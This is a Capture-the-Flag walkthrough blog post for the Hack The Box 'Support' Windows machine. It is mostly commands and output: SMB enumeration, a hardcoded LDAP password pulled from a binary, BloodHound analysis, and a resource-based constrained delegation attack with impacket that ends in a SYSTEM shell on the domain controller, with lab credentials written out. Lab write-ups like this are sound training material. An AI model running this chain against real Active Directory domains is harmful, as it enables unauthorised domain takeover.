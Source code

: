 ```yaml
---
layout: post
title: HackTheBox - Support
subtitle: CTF Walkthrough
cover-img: /assets/img/support/support.png
tags: [ctf, 'Hack The Box', 'htb', 'windows']
comments: true
---
```


Easy rated and most importantly free Windows box found in Hack The Box. Lets give it a shot!

### Enumeration

Looks like I will be working with AD environment based on DNS, Kerberos and LDAP ports.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-04 09:28 EST
Nmap scan report for support.htb (10.10.11.174)
Host is up (0.10s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-04 14:29:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-12-04T14:29:09
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.17 seconds

```

### SMB

Spun up Crackmapexec to list open shares with guest user. Looks liked there's a non-standard share "support staff tools"

```
└─$ cme smb 10.10.11.174 -u "guest" -p "" --shares         
 
[*] completed: 100.00% (1/1)
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SMB         10.10.11.174    445    DC               [+] Enumerated shares
SMB         10.10.11.174    445    DC               Share           Permissions     Remark
SMB         10.10.11.174    445    DC               -----           -----------     ------
SMB         10.10.11.174    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.174    445    DC               C$                              Default share
SMB         10.10.11.174    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.174    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.174    445    DC               support-tools   READ            support staff tools
SMB         10.10.11.174    445    DC               SYSVOL                          Logon server share 
```

SMB Share contains well-known support tools except for **UserInfo.exe.zip** which seems to be an odd one out.

```
└─$ smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022
  
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (242.2 KiloBytes/sec) (average 242.2 KiloBytes/sec)

```

Downloaded and unziped the archive. **UserInfo.exe** looks to be something that can be inspected further.

![alt text](/assets/img/support/1.png)

**Strings** and **cat** does not reveal that much sense out of this executable. I have decided to transfer it to my Windows VM and inspect it with [dnSpy debugger](https://github.com/dnSpy/dnSpy). By inspecting functions I've observed function called **getPassword()** which uses a hardcoded password for LDAP queries. Unfortunately password is encoded.

![alt text](/assets/img/support/2.png)

Setting a breakpoint before password is used in the program I managed to collect plaintext password alongside with username that can be observed in LdapQuery function.

![alt text](/assets/img/support/3.png)

I have verified that password is working using CME.
```
─$ cme smb 10.10.11.174 -u "ldap" -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

### Exploitation

With credentials that I have collected, I have enumerated LDAP and collected info for Bloodhound.

LDAP search revealed a password for **support** user found in **info** property.

```
└─$ ldapsearch -x -H ldap://10.10.11.174 -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "Cn=Users,DC=support,DC=htb" > ldap_users.txt 
```

![alt text](/assets/img/support/4.png)

```
└─$ python bloodhound.py -ns 10.10.11.174 -d support.htb -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
INFO: Found AD domain: support.htb
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WALULA.support.htb
INFO: Querying computer: 
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
WARNING: Could not resolve: WALULA.support.htb: The resolution lifetime expired after 3.204 seconds: Server 10.10.11.174 UDP port 53 answered The DNS operation timed out.; Server 10.10.11.174 UDP port 53 answered The DNS operation timed out.
INFO: Done in 00M 27S
```
Reviewing results in Bloodhound I have observed that support user ,who's credentials I found in LDAP, is member of "**Shared Support Accounts"** who has **GenericAll** (Resource Based Contrained Delegatiot) privileges over DC which can be used to escalate privileges.

![alt text](/assets/img/support/5.png)

### Privilege Escalation

First I created fake computer using impacket.

```
└─$ impacket-addcomputer support.htb/support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account ATTACK$ with password AttackerPC1!.
```

Then I have used [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py)to modify delegation rights.

```
└─$ python rbcd.py -dc-ip 10.10.11.174 -t dc -f 'ATTACK' support.htb\\support:Ironside47pleasure40Watchful
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against dc$
[*] Initializing LDAP connection to 10.10.11.174
[*] Using support.htb\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `ATTACK` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `dc`
[*] Delegation rights modified successfully!
[*] ATTACK$ can now impersonate users on dc$ via S4U2Proxy
```

Next I used **impacket-getST** to get service ticket.

```
└─$ impacket-getST -spn cifs/dc.support.htb support.htb/attack\$:'AttackerPC1!' -impersonate administrator -dc-ip 10.10.11.174   
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

Export ticket as environment variable.

```
└─$ export KRB5CCNAME=./Administrator.ccache
```

Finally used impacket psexec with -no-pass arg to psexec to DC. 

```
└─$ impacket-psexec -k -no-pass dc.support.htb -dc-ip 10.10.11.174          
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file xMbicevQ.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service YuDO on dc.support.htb.....
[*] Starting service YuDO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And I am root ! Spend some time on this machine, I would rate this as medium and not easy.